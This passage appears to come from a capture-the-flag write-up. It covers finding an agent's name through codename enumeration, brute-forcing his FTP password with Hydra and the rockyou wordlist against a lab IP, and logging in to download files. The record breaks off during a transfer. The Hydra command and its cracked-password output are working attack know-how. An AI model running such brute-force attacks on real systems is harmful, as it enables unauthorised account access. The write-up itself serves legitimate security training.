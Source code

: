 The response is different, this means it work. Now if their codename is a letter, following this logic, the rest of codenames are the letters of the alphabet, with letters A and B we don't have interesting results, but when we put "C" we have the next result:
![Redirection](https://github.com/user-attachments/assets/313afaf2-bea3-494c-9a9b-c8ffe673465f)  

The site with codename C have a redirection, let's follow it:
![Chris](https://github.com/user-attachments/assets/95d7cc3d-6c81-4bd1-a294-327534c626a3)

In the response we can see "Attention Chris", so, the name of the agent is **chris**  

### Task 3  

**3.1 FTP password**  

We have a name "chris", so, we can try to get inside of the FTP server using his name as username, with the help of **Hydra** we can make a brute force attack and get his password, and by the message of the Agent R, his password is weak so, we can try using rockyou.txt to obtain the passowrd:  

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.15.236 ftp  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).  

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-28 22:29:51  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task  
[DATA] attacking ftp://10.10.15.236:21/  
[21][ftp] host: 10.10.15.236   login: chris   password: crystal  
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 15 active  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-28 22:30:55  
```

The password is **crystal**, agent R was right when he said is a weak password. Now we can access to the FTP server:  

```
$ ftp 10.10.15.236  
Connected to 10.10.15.236.  
220 (vsFTPd 3.0.3)  
Name (10.10.15.236:kali): chris  
331 Please specify the password.  
Password:  
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> ls  
229 Entering Extended Passive Mode (|||47254|)  
150 Here comes the directory listing.  
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt  
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg  
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png  
226 Directory send OK.  
ftp> get To_agentJ.txt  
local: To_agentJ.txt remote: To_agentJ.txt  
229 Entering Extended Passive Mode (|||46486|)  
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).  
100% |********************************|   217       35.17 KiB/s    00:00 ETA  
226 Transfer complete.  
217 bytes received in 00:00 (1.08 KiB/s)  
ftp> get cute-alien.jpg  
local: cute-alien.jpg remote: cute-alien.jpg  
229 Entering Extended Passive Mode (|||39376|)  
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).  
100% |********************************| 33143      165.28 KiB/s    00:00 ETA  
```